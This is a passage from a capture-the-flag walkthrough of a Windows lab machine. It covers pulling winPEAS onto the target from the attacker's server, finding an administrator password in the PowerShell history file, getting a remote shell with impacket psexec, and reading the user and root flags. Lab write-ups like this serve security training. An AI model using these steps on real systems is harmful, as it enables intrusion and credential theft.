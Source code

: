 - the flag is in the users Download directory.
  ```
  C:\Users\sql_svc>type Desktop\user.txt
  type Desktop\user.txt
  3e7b102e78218e935bf3f4951fec21a3
  ```

## privilege escalation

- let's enumerate the system with winPEAS. download it from here https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe and then serve it through our already running http server.
- download it to the target. first, let's upgrade our shell to powershell with `powershell`.
- then run `wget http://10.10.14.217:8080/winPEASx64.exe -outfile wp64.exe`
- we can see that we have the SeImpersonatePrivilege
  ```
  ����������͹ Current Token privileges
  � Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED
  ```
- the winpeas script didn't catch this, but the writeup suggests to also check the PowerShell equivalent of the `.bash_hiostory`, which is located under `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`
  ```
  PS C:\Users\sql_svc> cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\
  PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline> type ConsoleHost_history.txt
  type ConsoleHost_history.txt
  net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
  ```
  there is the admin password!
- let's use `psexec.py` from impacket to login:

  ```
  $ python /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.59.131
  Impacket v0.11.0 - Copyright 2023 Fortra

  Password:
  [*] Requesting shares on 10.129.59.131.....
  [*] Found writable share ADMIN$
  [*] Uploading file CerDSEFZ.exe
  [*] Opening SVCManager on 10.129.59.131.....
  [*] Creating service MWJw on 10.129.59.131.....
  [*] Starting service MWJw.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.17763.2061]
  (c) 2018 Microsoft Corporation. All rights reserved.

  C:\Windows\system32>
  ```

## root flag

- just like the user flag, the root flag sits on the administrator's desktop.
  ```
  C:\Users\Administrator\Desktop> type root.txt
  b91ccec3305e98240082d4474b848528
  ```
